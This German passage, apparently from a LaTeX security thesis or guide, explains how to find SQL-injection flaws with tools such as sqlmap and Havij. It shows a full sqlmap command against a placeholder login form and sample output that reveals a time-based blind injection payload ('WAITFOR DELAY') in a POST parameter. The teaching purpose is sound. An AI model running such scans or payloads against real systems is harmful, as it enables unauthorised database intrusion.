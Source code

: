 Um potentielle SQL-Injection Schwachstellen innerhalb einer Anwendung zu finden, existieren eine Vielzahl von kommerziellen Anwendungen (z.B. Havij\footnote{http://www.itsecteam.com/products/havij-v116-advanced-sql-injection/}) als auch Open-Source-Tools wie z.B. Sqlmap\footnote{http://sqlmap.org/}


Bei Sqlmap handelt es sich um ein Open-Source Tool um SQL-Injetion Schwachstellen automatisiert zu finden und auszunutzen. Bei Sqlmap handelt es sich um eine konsolenbasierte Anwendung. Das kommerzielle Tool Havij bietet dem Anwender hingegen eine grafische Menüführung an.

Im folgenden Beispiel besteht die Vermutung, dass einer der folgenden POST-Parameter für SQL-Injection anfällig ist. Dabei ist im Vorfeld der Überprüfung bekannt, dass es sich bei der Backend-Datenbank um eine MSSQL-Datenbank handelt. Um dies automatisiert zu verifizieren, wird Sqlmap mit folgenden Parametern aufgerufen:

\begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
sqlmap.py -u "http://www.beispiel.de"
--data="p1=index.aspx?txtMail=user@name.de&txtPw=geheim&cmdSend=Login" 
--dbms=mssql --risk=3 --level=3
\end{lstlisting}

Ist einer der Parameter für SQL-Injection Angriffe anfällig, werden Informationen zum darunterliegen Betriebssystem, der eingesetzten Datenbank, als auch Details zur der verwendeten Injection-Technik ausgegeben.

\begin{lstlisting}[basicstyle=\ttfamily\footnotesize]
[INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows Vista
web application technology: ASP.NET, ASP, Microsoft IIS 7.0
back-end DBMS: Microsoft SQL Server 2008

Place: POST
  Type: AND/OR time-based blind
  Title: Microsoft SQL Server/Sybase time-based blind
  Payload: p1=index.aspx?txtMail=user@name.de' WAITFOR DELAY '0:0:5'
  --&txtPw=geheim&cmdSend=Login
\end{lstlisting}

Wie der Ausgabe zu entnehmen ist, wird als Datenbanksystem das Microsoft Produkt SQL-Server 2008 auf einem Microsoft Windows Vista betrieben. Der Parameter \texttt{txtMail} ist für einen time-based blind SQL-Injection-Angriff anfällig.


